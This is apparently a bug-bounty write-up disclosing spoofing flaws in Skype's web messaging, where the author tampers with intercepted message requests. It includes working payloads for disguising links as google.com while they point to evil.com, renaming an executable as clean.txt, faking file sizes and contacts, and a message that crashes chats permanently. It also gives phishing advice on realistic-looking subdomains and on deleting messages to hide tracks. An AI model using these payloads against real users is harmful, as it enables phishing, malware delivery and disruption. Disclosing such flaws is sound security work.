










Skype is plagued with spoofing vulnerabilities that Microsoft did not think need 'immediate security servicing'<!-- end -->.

# Introduction

It was another day of bug bounty hunting, the domain being tested is <b>web.skype.com</b>. After thorough testing, I realized the messaging functionality does not protect against tampering and so spoofing is possible. As of publishing this article, the vulnerabilities mentioned still exist. Microsoft did not deem these vulnerabilities to be serious enough for immediate remediation, but will be fixed in future versions.

# Table of Content

There's quite a bit of interesting things I discovered so feel free to jump to whatever section you like.

* **Spoofing Links** - Affects web, mobile and thick clients
* **Spoofing File Names** - Affects web and mobile clients
* **Spoofing File Size** - Affects web, mobile and thick clients
* **Spoofing Shared Contacts** - Affects web, mobile and thick clients
* **Crash Skype For Any User** - Affects web and thick clients
* **Spear Phishing With Skype's Domain** - Not applicable
* **Breaking Out Of The Chat Bubble** - Affects web, mobile and thick clients

# Spoofing Links

I found this one to be pretty effective if you want to get someone to visit a link. Let's see how it's done.

Step 1: Send the link you want to masquerade as


Step 2: Intercept the request and forward until you see the following request:

```
POST /v1/users/ME/conversations/19%REDACTED%40thread.skype/messages?x-ecs-etag= HTTP/1.1
Host: azwus1-client-s.gateway.messenger.live.com
...

{
"clientmessageid":"123456789",
"composetime":"2021-02-01T23:05:32.546Z",
"content":"<a href=\"https://google.com\">https://google.com</a>",
"messagetype":"RichText",
"contenttype":"text",
"imdisplayname":"mr d0x\"'><h1>hi</h1>",
"properties":{
    "urlpreviews":"[{\"key\":\"https://google.com\",\"value\":{\"url\":\"https://google.com\",\"size\":\"49128\",\"status_code\":\"200\",\"content_type\":\"text/html\",\"site\":\"www.google.com\",\"category\":\"generic\",\"title\":\"Google\",\"description\":\"Search the world's information, including webpages, images, videos and more. Google has many special features to help you find exactly what you're looking for.\",\"favicon\":\"https://nus1-urlp-static.secure.skypeassets.com/static/google-32x32.ico\",\"favicon_meta\":{\"width\":32,\"height\":32},\"thumbnail\":\"https://nus1-urlp-static.secure.skypeassets.com/static/google-90x90.png\",\"thumbnail_meta\":{\"width\":90,\"height\":90},\"user_pic\":\"\"}}]"
    }

}
```

Step 3: Insert your link in the 'href' attribute and in 'key' (in the urlpreviews key)

```
...
"content":"<a href=\"https://evil.com\">https://google.com</a>",
...
"urlpreviews":"[{\"key\":\"https://evil.com\",...
```



The spoofed URL is shown at the bottom of the message. To get past that just create a realistic subdomain. Example: **google.image.view.evil.com**



# Spoofing File Names

Using this vulnerability you have the ability to send any user a file with a spoofed name and extension. I found several ways of doing this but I'm only showing one way.

Step 1: Start a conversation with anyone and click 'Add files'



Step 2: Select your malicious file


Step 3: Send and intercept with Burp, forward until you see the request below

```
POST /v1/users/ME/conversations/19%REDACTED%40thread.skype/messages?x-ecs-etag= HTTP/1.1
Host: azwus1-client-s.gateway.messenger.live.com
...

{
"clientmessageid": "6937674706420748491",
"composetime": "2021-01-31T20:13:38.249Z",
"content": "<URIObject uri=\"https://api.asm.skype.com/v1/objects/0-cus-d17-REDACTED\" url_thumbnail=\"https://api.asm.skype.com/v1/objects/0-cus-d17-REDACTED/views/original\" type=\"File.1\" doc_id=\"0-cus-d17-REDACTED\">To view this file, go to: <a href=\"https://login.skype.com/login/sso?go=webclient.xmm&amp;docid=0-cus-d17-REDACTED\">https://login.skype.com/login/sso?go=webclient.xmm&amp;docid=0-cus-d17-REDACTED</a><OriginalName v=\"plink.exe\"></OriginalName><FileSize v=\"311296\"></FileSize></URIObject>",
"messagetype": "RichText/Media_GenericFile",
"contenttype": "text",
"imdisplayname": "mr d0x",
"amsreferences": [
    "0-cus-d17-REDACTED"
    ]
}
```

Step 4: Modify the OriginalName value, including the extension

```
<OriginalName v=\"clean.txt\"></OriginalName>
```

Done! And now this is what you and the target will see:



But upon clicking 'Download' the original file name will show up:



# Spoofing File Size

Repeat the same steps mentioned in the section above, the only difference is in step 4. What you'll do instead is modify the FileSize value.

```
<FileSize v=\"11000000000000\"></FileSize>
```

Our file looks like it's 11TB now.



# Spoofing Shared Contacts

I don't know how practical this is but I thought I'd share it anyways. While sharing a contact intercept the request and modify the display name or username. The modification will then be reflected to the target user.

```
POST /v1/users/ME/conversations/19%REDACTED%40thread.skype/messages?x-ecs-etag= HTTP/1.1
Host: azwus1-client-s.gateway.messenger.live.com
...

{
"clientmessageid":"31905252195064291",
"composetime":"2021-01-31T20:02:39.230Z",
"content":"<contacts><c t=\"s\" s=\"evil.account\" f=\"It's Bob!\"></c></contacts>",
"messagetype":"RichText/Contacts",
"contenttype":"text",
"imdisplayname":"mr d0x",
"properties":{
    "forwardMetadata":"{\"isForwarded\":false}"
    }
}
```



# Crash Skype For Any User

While playing around with the 'content' value in the body (reference the previous sections if you skipped over them), I accidentally put too many tags and it ended up crashing Skype on both ends of the conversation (the attacker & target). The chat will become permanently inaccessible and will crash Skype everytime anyone tries to open it.

Here's the payload I used:

```
"content":"<contacts><URIObject><h1><a href=\"https://google.com \" t=\"s\" s=\" ><contacts><c t=\"s\" s=\"evil.account\" f=\"Mr.d0x\"></c></contacts> </a></h1></URIObject></contacts>"
```

And the results were:


This will crash both Skype on web and Skype's thick client. However the Skype app on the phone does not crash.

# Spear Phishing With Skype's Domain

I found this one pretty interesting. When you send a file to a chat it's first uploaded to Skype's servers and then everyone inside the chat gets access to the file. **It doesn't matter whether you're friends with the target(s) or not**. After sending the file, you can delete it and everyone retains access to the file.

The file's link can now be emailed to the target and if they have an active session on their Outlook/O365 account then the link allows them to download the file.

Step 1: Send or forward a file to the target user, ignore the error notification



Step 2: Intercept the request and forward until you see this request

```
POST /v1/users/ME/conversations/19%REDACTED%40thread.skype/messages?x-ecs-etag= HTTP/1.1
Host: azwus1-client-s.gateway.messenger.live.com
...

{
"clientmessageid": "6937674706420748491",
"composetime": "2021-01-31T20:13:38.249Z",
"content": "<URIObject uri=\"https://api.asm.skype.com/v1/objects/0-cus-d17-REDACTED\" url_thumbnail=\"https://api.asm.skype.com/v1/objects/0-cus-d17-REDACTED/views/original\" type=\"File.1\" doc_id=\"0-cus-d17-REDACTED\">To view this file, go to: <a href=\"https://login.skype.com/login/sso?go=webclient.xmm&amp;docid=0-cus-d17-REDACTED\">https://login.skype.com/login/sso?go=webclient.xmm&amp;docid=0-cus-d17-REDACTED</a><OriginalName v=\"plink.exe\"></OriginalName><FileSize v=\"311296\"></FileSize></URIObject>",
"messagetype": "RichText/Media_GenericFile",
"contenttype": "text",
"imdisplayname": "mr d0x",
"amsreferences": [
    "0-cus-d17-REDACTED"
    ]
}

```

The download link is inside *url_thumbnail*.

```
https://api.asm.skype.com/v1/objects/0-cus-d17-REDACTED/views/original
```

Step 3: Delete your message to hide your tracks

Now you can use this link to spear phish your target. Skype's domain is trusted and so you won't have to worry about your link being flagged by email providers.

# Breaking Out Of The Chat Bubble

Messaging platforms will often show users' messages in a chat bubble. But any text outside of the chat bubble is considered 'authoritative' text, meaning it can be trusted. We can use this for our advantage in this case.

```
POST /v1/users/ME/conversations/19%REDACTED%40thread.skype/messages?x-ecs-etag= HTTP/1.1
Host: azwus1-client-s.gateway.messenger.live.com
...

{
"clientmessageid":"123456789",
"composetime":"2021-01-31T20:02:39.230Z",
"content":"Mr.d0x invited you to a meeting: <URIObject><a href='https://skype.evil.meeting.com'>https://skype.com/meetings/123-456-789</a></URIObject>",
"messagetype":"RichText/Contacts",
"contenttype":"text",
"imdisplayname":"mr d0x",
"properties":{
    "forwardMetadata":"{\"isForwarded\":false}"
    }
}
```



One thing to note is your real domain will show up if the user hovers over. Again, be creative and add a realistic subdomain with a realistic looking path and you should be fine.



# Conclusion

Skype does not do any sort of tamper validation with their messaging component and therefore anything can be spoofed. There's more things you can play around with such as Emojis, Gifs, Polls etc. but I only showed what I felt were the most important ones.